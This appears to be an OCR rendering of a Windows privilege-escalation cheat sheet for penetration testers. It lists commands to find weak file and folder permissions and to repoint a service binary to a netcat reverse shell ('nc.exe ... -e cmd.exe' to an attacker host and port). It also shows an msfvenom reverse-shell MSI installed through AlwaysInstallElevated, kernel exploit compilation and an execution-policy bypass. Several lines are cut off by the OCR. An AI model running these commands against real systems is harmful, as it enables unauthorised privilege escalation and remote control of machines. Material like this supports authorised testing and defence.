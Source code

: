 Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\

accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\
Find all weak file permissions per drive.
accesschk.exe /accepteula -uwsv "Everyone" "C:\Program Files"
accesschk.exe /accepteula -uwqs Users c:\*.*

accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
Powershell :

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -m

Binary planting
(https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
sc qc [service_name] // for service properties
sc query [service_name] // for service status
sc config [service_name] binpath= "C:\Temp\nc.exe -nv [RHOST] [RPORT] -
e C:\WINDOWS\System32\cmd.exe"

sc config [service_name] obj= ".\LocalSystem" password= ""

net start [service_name]

Unquoted Service Path Privilege Escalation
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

wmic service get name,displayname,pathname,startmode |findstr /i "Auto"

Always Install Elevated :

1 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
2 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
3
4 msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 –f msi > i
5
6 C:> msiexec /quiet /qn /i install.msi

Kernel Exploits :
https://github.com/abatchy17/WindowsExploits
https://github.com/SecWiki/windows-kernel-exploits
run systeminfo | capture the output and run windows-exploit-suggester.py
Compiling Kernel Exploits :

i686-w64-mingw32-gcc exploit.c -o exploit

or for 32 bit

i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32

Automated Enumeration Tools

Powershell:

powershell -ep bypass
load powershell (only in meterpreter)
Sherlock (https://github.com/rasta-mouse/Sherlock)
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc (PowerUp)
EXE : (https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#exe)
